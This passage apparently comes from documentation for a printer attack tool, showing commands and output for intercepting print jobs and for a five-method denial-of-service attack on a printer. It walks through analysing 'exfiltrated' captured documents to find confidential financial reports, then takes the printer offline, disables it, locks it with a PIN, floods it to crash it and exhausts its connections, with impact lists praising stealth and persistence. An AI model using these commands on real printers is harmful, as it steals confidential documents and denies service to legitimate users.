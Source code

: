 ```bash
# Step 5: Analyze captured documents
$ file exfiltrated/captured_job_001.ps
exfiltrated/captured_job_001.ps: PostScript document text

$ strings exfiltrated/captured_job_001.ps | grep -i "confidential"
CONFIDENTIAL FINANCIAL REPORT Q4 2024
```

**Impact:**
- ✅ Confidential documents intercepted
- ✅ No user awareness
- ✅ Persistent attack
- ✅ Can capture multiple jobs

---

### Example 8: Denial of Service

**Scenario**: Make printer unavailable

```bash
# Method 1: Take offline
192.168.1.100:/> offline "System Maintenance - DO NOT USE"

Printer taken offline

# Method 2: Disable functionality
192.168.1.100:/> disable

Printer disabled

# Method 3: Lock with unknown PIN
192.168.1.100:/> lock 31337

Printer locked with PIN

# Method 4: Buffer overflow crash
192.168.1.100:/> flood 100000

Flooding with 100000 bytes...
# Printer may crash or hang

# Method 5: Connection exhaustion
192.168.1.100:/> dos_connections

Exhausting connection pool...
# Printer cannot accept new connections
```

**Impact:**
- Printer unavailable for legitimate users
- Service interruption
- May require manual intervention
- Can last indefinitely

---